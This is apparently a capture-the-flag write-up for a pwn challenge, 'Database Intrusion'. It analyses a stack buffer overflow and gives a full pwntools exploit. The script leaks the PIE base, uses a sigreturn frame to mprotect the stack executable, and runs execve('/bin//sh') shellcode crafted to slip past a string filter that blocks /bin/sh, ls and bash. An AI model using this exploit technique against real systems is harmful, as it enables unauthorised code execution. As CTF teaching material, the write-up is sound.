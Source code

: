 # Database Intrusion - Writeup

---

## Exploit Demo

This demo shows the full exploitation flow:

![Alt text](gif/DatabaseIntrusion.gif)

---

## Binary Inspection

We begin by examining the binary format and security properties.

### Step 1: Binary Format

```bash
$ file main
```

The binary is a 64-bit dynamically linked PIE executable.

![Alt text](img/1.png)

---

### Step 2: Security Properties

```bash
$ pwn checksec main
```

Security summary:

- **Full RELRO**
- **No Stack Canary**
- **NX enabled**
- **PIE enabled**

![Alt text](img/2.png)

---

## Static Analysis (IDA Pro)

```c
int vuln() {
  _BYTE buf[64];
  printf(">> Secure channel established at %p:%p.\n", buf, vuln);
  read(0, buf, 0x190);
  check_forbidden(buf);
  return puts("Hint: You don't need ga\ndgets for rax!");
}
```

- `buf` and `vuln` addresses are leaked.
- `check_forbidden()` runs _after_ the overflow, so shellcode must not contain blocked substrings.
- Buffer is on the **stack**, so we need to **mprotect** it before execution.

---

## Vulnerability Summary

The function `vuln()` contains a **buffer overflow** on a 64-byte buffer due to an unchecked `read()` call that reads **0x190 bytes**:

```c
char buf[64];
read(0, buf, 0x190);  // Vulnerable
```

Furthermore, a `check_forbidden()` function filters out strings such as `/bin/sh`, `ls`, `bash`, and more — preventing traditional `system("/bin/sh")` shellcode or command injection.

---

## Exploit Strategy

Due to the NX bit and forbidden string filter, we use **Sigreturn-Oriented Programming (SROP)** to:

1. Call `mprotect()` to mark the stack **RWX**.
2. Inject and execute a **custom shellcode** that avoids forbidden strings.

### Overview

1. **Leak PIE base** from `printf("%p:%p", buf, vuln)` in `vuln()`.
2. **Page-align the stack buffer** to use in `mprotect()`.
3. **Craft a SROP frame** that sets up a `mprotect` syscall to make stack executable.
4. **Inject shellcode** directly into the buffer.
5. **Jump to shellcode** after stack permissions are changed.

---

## Exploit Script

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template
from pwn import *
context.arch = 'amd64'
context.os = 'linux'
# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or './main')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR



def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

io = start()

#--------------------------------[ STEP 1 : PIE_BASE ]--------------------------------

io.recvuntil(b'>> Secure channel established at ')
leak_vals = io.recvline().split(b':')
log.success	(f"leak_vals : {leak_vals}")
buf_addr = int(leak_vals[0],16)
vuln_addr = int(leak_vals[1].strip()[:-1],16)
log.success(f"buf @ : {hex(buf_addr)} ,, vuln @ : {hex(vuln_addr)}")
pie_base = vuln_addr - exe.sym['vuln']
exe.address = pie_base
log.success(f"exe.address @ {hex(exe.address)}")

#------------------[ STEP 2 : MAKE STACk RWX WITH MPROTECT SYSCALL ]------------------

# Setup ROP and gadgets
rop = ROP(exe)
syscall_gad = rop.find_gadget(['syscall'])[0]
ret_gad = rop.find_gadget(['ret'])[0]

# Page align the buffer address for mprotect
page_size = 0x1000
page_aligned_addr = buf_addr & ~(page_size - 1)

# Build SigreturnFrame for mprotect syscall
frame = SigreturnFrame()
frame.rax = 10            # syscall number for mprotect
frame.rdi = page_aligned_addr  # page-aligned address
frame.rsi = page_size     # length (one page)
frame.rdx = 7             # PROT_READ | PROT_WRITE | PROT_EXEC
frame.rip = syscall_gad   # syscall; ret gadget address
frame.rsp = buf_addr  # new stack pointer after sigreturn

#-------------------------------[ STEP 3 : SHELLCODE ]-------------------------------

shellcode = asm('''
    xor rsi, rsi
    push rsi
    mov rdi, 0x68732f2f6e69622f
    push rdi
    mov rdi, rsp
    xor rdx, rdx
    mov al, 0x3b
    syscall
''')

#--------------------------------[ STEP 4 : PAYLOAD ]--------------------------------

offset = 16
payload=p64(buf_addr+8)
payload+= shellcode
payload+= b'\x90' * (72 - len(payload) )
payload+= p64(syscall_gad)
payload+=bytes(frame)

io.recvuntil(b'>> Root key required to proceed:\n')
io.sendline(payload)



io.interactive()



```

---

## Final Notes

- The SROP frame allows us to _bypass the NX bit_.
- The injected shellcode is carefully crafted to avoid any substrings checked by `check_forbidden()`.
- We pivot back into the shellcode via `rsp` in the frame after `mprotect()` succeeds.

---

## Result

After successful execution, a shell is spawned **without using any forbidden string**, granting control of the target system.

---

## Flag

```
RedPointer{X!r7v9-Kaleido.phs}
```
